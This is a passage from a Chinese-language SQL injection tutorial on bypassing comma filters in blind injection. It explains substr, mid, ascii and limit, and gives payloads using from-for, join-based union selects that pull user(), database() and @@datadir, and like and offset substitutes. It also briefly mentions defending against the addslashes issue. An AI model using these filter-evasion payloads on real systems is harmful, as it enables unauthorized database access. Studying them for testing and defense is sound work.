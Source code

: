 2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：’ , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

## 11.对逗号的绕过

sql盲注时常用到以下的函数：

substr()
substr(string, pos, len):从pos开始，取长度为len的子串
substr(string, pos):从pos开始，取到string的最后

substring()
用法和substr()一样

mid()
用法和substr()一样，但是mid()是为了向下兼容VB6.0，已经过时，以上的几个函数的pos都是从1开始的

left()和right()
left(string, len)和right(string, len):分别是从左或从右取string中长度为len的子串

limit
limit pos len:在返回项中从pos开始去len个返回值，pos的从0开始

ascii()和char()
ascii(char):把char这个字符转为ascii码
char(ascii_int):和ascii()的作用相反，将ascii码转字符

###### 对于substr()和mid()这两个方法可以使用from for 的方式来解决

```bash
 select substr(database() from 1 for 1)='c';
```

##### 使用join关键字来绕过

```bash
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```

##### 使用like关键字 适用于substr()等提取子串的函数中的逗号

```bash
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

##### 使用offset关键字

```bash
 select * from cms_users limit 0,1;
# 等价于下面这条SQL语句
 select * from cms_users limit 1 offset 0;
```

## 12.过滤函数绕过
